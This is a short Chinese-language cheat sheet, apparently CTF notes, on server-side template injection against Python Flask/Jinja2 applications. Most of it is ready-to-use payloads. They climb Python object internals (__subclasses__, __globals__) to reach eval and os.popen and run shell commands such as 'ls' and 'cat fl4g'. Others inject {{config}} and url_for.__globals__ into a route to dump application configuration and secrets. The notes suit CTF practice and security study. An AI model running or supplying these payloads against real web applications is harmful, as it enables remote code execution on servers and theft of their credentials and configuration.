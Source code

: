 # SSTI

* ### 标准SSTI查询语句

```
''.__class__.__base__.__subclasses__() //返回子类列表
''.__class__.__base__.__subclasses__()[30].__init__ //查看第30位子类的init，返回<slot wrapper '__init__' of 'object' objects>则未被重载不存在init
''.__class__.__base__.__subclasses__()[5].__init__.__globals__['__builtins__']['eval']  //执行命令
''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].popen('ls').read()  //得到ls结果并打印在页面上
''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].popen('cat fl4g').read()
```

* ### SSTI注入

源代码未对config进行过滤时：

```
{{config}} //调出所有app.config中的字段
```

SSTI注入尝试：对于@app.route\('/shrine/'\)，使用

```
/shrine/{{1+1}}
```

进行注入尝试

```
/shrine/{{url_for.__globals__}}   //查看全局
/shrine/{{url_for.__globals__['current_app'].config}}  //查看当前app下的config
```



